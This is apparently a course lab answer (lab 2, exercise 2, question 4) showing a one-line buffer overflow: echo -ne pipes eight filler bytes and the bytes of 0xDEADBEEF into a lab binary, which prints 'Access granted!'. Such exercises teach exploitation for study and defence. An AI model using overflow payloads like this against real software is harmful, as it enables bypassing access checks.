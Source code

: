 # Lab 2 ex 2 q 4

**[Q4]**: How can we exploit the program just with `echo -ne`?

## Answer

```bash
echo -ne "12345678\xEF\xBE\xad\xDE" | ./bin/ex2
Access granted! # Output :)
```